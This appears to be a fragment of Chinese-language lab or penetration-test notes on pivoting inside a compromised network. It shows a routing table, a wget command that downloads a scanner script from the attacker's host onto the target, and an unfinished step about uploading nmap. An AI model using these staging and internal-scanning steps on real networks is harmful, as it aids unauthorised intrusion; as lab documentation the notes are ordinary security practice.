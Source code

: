 ```
10.120.14.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.15.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.16.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.17.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.18.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.19.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
10.120.20.0     10.78.11.2      255.255.255.0   UG    0      0        0 eth2
```
#### 内网python扫描
https://raw.githubusercontent.com/AnthraX1/InsightScan/master/scanner.py

wget http://10.10.14.7/scanner.py

/usr/bin/python3.5 scanner.py -h

python2.7和python3.5不兼容，目标主机只有python3.5,导致该py脚本无法运行。

#### 上传nmap
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-12/8.PNG)

待续
